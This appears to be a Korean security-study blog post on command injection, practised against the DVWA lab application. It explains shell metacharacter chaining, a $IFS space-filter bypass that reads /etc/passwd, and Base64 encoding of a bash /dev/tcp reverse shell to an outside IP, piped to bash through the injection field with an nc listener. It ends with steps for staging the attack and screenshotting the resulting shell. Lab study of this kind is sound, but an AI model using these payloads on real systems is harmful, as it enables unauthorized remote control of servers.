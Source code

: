 ```yaml
---
layout: post
title: "명령어 인젝션 공부"
date: 2025-09-03 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

명령어 인젝션은 사용자의 입력값이 서버의 쉘 명령어의 일부로 검증 없이 전달될 때 발생하는 취약점이다. 공격자는 쉘의 특수문자(Metacharacters)를 주입하여 원래의 명령어를 종료시키거나 변조하고 자신이 원하는 새로운 명령어를 실행시킬 수 있다.

이 공격은 [A01: 접근 통제 실패](https://hamap0.github.io/projects/owasp-top-10/2025/08/25/A01_Broken-Access-Control.html) 보고서에서 리버스 쉘을 획득하여 서버 제어권을 장악하는 데 결정적인 역할을 했다.

---

### 2. 주요 공격 기법

공격의 핵심은 쉘 메타 문자를 사용하여 명령어의 흐름을 제어하는 것이다.

*   **`;` (Semicolon):** 앞 명령어의 성공 여부와 관계없이 다음 명령어를 순차적으로 실행한다.
    ```
    ping 127.0.0.1; whoami
    ```
*   **`&&` (Ampersand):** 앞 명령어가 성공적으로 실행되었을 때만 다음 명령어를 실행한다.
    ```
    ping 127.0.0.1 && whoami
    ```
*   **`|` (Pipe):** 앞 명령어의 표준 출력(stdout)을 다음 명령어의 표준 입력(stdin)으로 전달한다.

---

### 3. 필터링 우회 기법

단순한 메타 문자 주입은 방어 로직에 의해 차단될 수 있다. 이때는 필터링 규칙을 우회하는 기법이 필요하다.

#### **공백 문자 필터링 우회**
일부 시스템은 명령어 사이의 공백 문자를 필터링한다. 이때는 공백 대신 쉘의 내부 필드 구분자(Internal Field Separator)인 `$IFS` 변수를 사용할 수 있다.
*   **기본:** `cat /etc/passwd`
*   **우회:** `cat$IFS/etc/passwd`

#### **키워드 필터링 우회 (Base64 인코딩)**
`cat` · `ls` · `nc` 등 특정 명령어 키워드가 필터링될 때 사용된다. 실행할 명령어를 Base64로 인코딩하여 필터링을 우회한 뒤 서버에서 디코딩하여 실행시킨다.
1.  **공격자 PC에서 페이로드 인코딩:**
    ```bash
    # 실행할 리버스 쉘 명령어를 Base64로 인코딩 (-w0 옵션은 줄바꿈 없이 한 줄로 출력)
    echo "bash -i >& /dev/tcp/192.9.200.12/4444 0>&1" | base64 -w0
    ```
2.  **대상 서버에서 디코딩 및 실행:**
    인코딩된 문자열을 `echo`로 출력하고 파이프(`|`)를 통해 `base64 -d`로 디코딩한 뒤 다시 파이프를 통해 `bash`로 실행시킨다.
    ```bash
    # DVWA 입력값:
    127.0.0.1; echo <Base64 Encoded String> | base64 -d | bash
    ```
   ![CommandinjectionBase64](/assets/images/Cinjection_1.png)

이 방식은 필터링이 복잡할수록 유용하며 `A01` 보고서에서 서버 제어권을 획득할 때 사용된 핵심 기법이다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **Base64 인코딩을 이용한 RCE 성공 이미지 제작**

이 이미지는 명령어 필터링을 우회하여 리버스 쉘을 획득하는 전 과정을 보여줍니다.

**1. "준비" 단계 (두 개의 터미널)**

1.  (준비) **공격자 PC(Attacker)**에서 두 개의 터미널 창을 엽니다.
2.  **첫 번째 터미널 (리스너):** `nc -lvnp 4444` 명령어를 실행하여 리스너를 시작합니다.
3.  **두 번째 터미널 (인코딩):** 리버스 쉘 페이로드를 Base64로 인코딩합니다.
    ```bash
    echo "bash -i >& /dev/tcp/192.9.200.12/4444 0>&1" | base64 -w0
    # 결과로 나온 긴 문자열(예: YmFzaCAtaSA...)을 복사해 둡니다.
    ```

**2. "공격" 단계 (웹 브라우저)**

1.  웹 브라우저에서 DVWA의 `Command Injection` 페이지로 이동합니다.
2.  IP 입력창에 아래와 같은 형식으로 페이로드를 입력합니다. `<...>` 부분에는 위에서 복사한 Base64 문자열을 붙여넣습니다.
    ```
    127.0.0.1; echo <Base64 Encoded String> | base64 -d | bash
    ```
3.  `Submit` 버튼을 클릭합니다.

**3. "결과 확인" 및 스크린샷 촬영**

1.  **첫 번째 터미널 (리스너)**을 확인합니다. `connect to...` 메시지와 함께 대상 서버의 쉘 프롬프트가 나타나면 성공입니다.
2.  `whoami` 명령어를 실행하여 `www-data`가 출력되는 것을 확인합니다.
3.  **두 번째 터미널 (인코딩)**과 **첫 번째 터미널 (리스너)**이 나란히 보이도록 배치하고, 화면 전체를 스크린샷으로 찍습니다.

**4. 최종 이미지 편집**

1.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
2.  왼쪽(인코딩 터미널)과 오른쪽(리스너 터미널)을 명확히 구분합니다.
3.  **왼쪽**에서는 Base64로 인코딩된 결과 문자열에 하이라이트를 적용합니다.
4.  **오른쪽**에서는 성공적으로 획득한 `www-data` 쉘 프롬프트와 `whoami` 결과에 하이라이트를 적용합니다.
5.  두 하이라이트 사이에 화살표 등을 추가하여 왼쪽의 인코딩된 페이로드가 오른쪽의 쉘 획득으로 이어졌음을 시각적으로 보여줍니다.
6.  수정된 이미지를 저장하여 게시글에 삽입합니다.
